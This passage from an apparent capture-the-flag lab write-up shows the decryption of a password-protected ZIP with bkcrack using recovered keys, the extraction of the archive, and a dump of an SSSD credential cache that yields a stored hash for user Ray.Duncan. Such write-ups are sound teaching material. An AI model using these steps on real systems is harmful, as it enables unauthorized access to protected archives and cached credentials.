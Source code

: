 It found a solution and provided a key to decrypt the zip file.

Now lets use bkcrack to create a new zip file without the password.

```bash
$ /opt/bkcrack-1.7.0-Linux/bkcrack -C backup.zip -k d6829d8d 8514ff97 afc3f825 -D decrypted.zip
bkcrack 1.7.0 - 2024-05-26
[01:01:04] Writing decrypted archive decrypted.zip
100.0 % (21 / 21)
```

And lets unzip the decrypted zip on an `bkp/` directory.

```bash
$ 7z x decrypted.zip -o./bkp

7-Zip 24.07 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-06-19
 64-bit locale=en_US.UTF-8 Threads:8 OPEN_MAX:524288

Scanning the drive for archives:
1 file, 72732 bytes (72 KiB)

Extracting archive: decrypted.zip
--
Path = decrypted.zip
Type = zip
Physical Size = 72732

Everything is Ok

Folders: 19
Files: 21
Size:       38385303
Compressed: 72732
```

### Ray Duncan password

After checking the content of the zip we find a `.ldp` file with what looks like a hash for user `Ray.Duncan`.

```bash
$ tdbdump bkp/var/lib/sss/db/cache_windcorp.htb.ldb 
{
key(21) = "DN=@INDEX:CN:CERTMAP\00"
data(81) = "g\19\01&\02\00\00\00@INDEX:CN:CERTMAP\00@IDXVERSION\00\01\00\00\00\01\00\00\002\00@IDX\00\01\00\00\00\13\00\00\00cn=certmap,cn=sysdb\00"
}
{
key(28) = "DN=@INDEX:NAME:windcorp.htb\00"
data(160) = "g\19\01&\02\00\00\00@INDEX:NAME:windcorp.htb\00@IDXVERSION\00\01\00\00\00\01\00\00\002\00@IDX\00\01\00\00\00[\00\00\00objectSID=S-1-5-21-1844305427-4058123335-2739572863,cn=id_mappings,cn=windcorp.htb,cn=sysdb\00"
}
...
{
key(66) = "DN=NAME=Ray.Duncan@windcorp.htb,CN=USERS,CN=WINDCORP.HTB,CN=SYSDB\00"
```